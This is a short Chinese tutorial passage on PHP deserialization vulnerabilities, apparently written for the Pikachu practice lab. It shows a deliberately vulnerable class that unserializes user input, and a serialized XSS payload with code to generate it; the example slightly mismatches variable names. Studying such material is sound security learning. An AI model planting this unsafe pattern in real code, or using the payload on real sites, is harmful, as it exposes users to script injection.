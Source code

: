 **反序列化unserialize()**

就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。

```php
$u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
echo $u->test; //得到的结果为pikachu
```

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题

```php
常见的几个魔法函数:
__construct()当一个对象创建时被调用

__destruct()当一个对象销毁时被调用

__toString()当一个对象被当作一个字符串使用

__sleep() 在对象在被序列化之前运行

__wakeup将在序列化之后立即被调用

漏洞举例:

class S{
    var $test = "pikachu";
    function __destruct(){
        echo $this->test;
    }
}
$s = $_GET['test'];
@$unser = unserialize($a);

payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```

自己写一个恶意的序列化代码

```php
<?php
	class S{
	var $test = "<script>alert('xss')</script>";
	}
echo '<br>';
$a = new S();
echo serialize($a);
?>
```

生成

```
O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```

![image-20211209154203883](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202112201254284.png)
